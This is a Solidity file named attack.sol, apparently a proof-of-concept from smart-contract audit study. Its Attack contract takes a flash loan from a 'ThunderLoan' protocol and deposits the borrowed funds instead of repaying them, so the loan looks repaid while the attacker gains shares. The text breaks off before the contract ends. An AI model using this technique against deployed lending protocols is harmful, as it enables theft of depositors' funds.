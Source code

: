 
attack.sol

```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));
        
        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }
        
        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
        IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }

```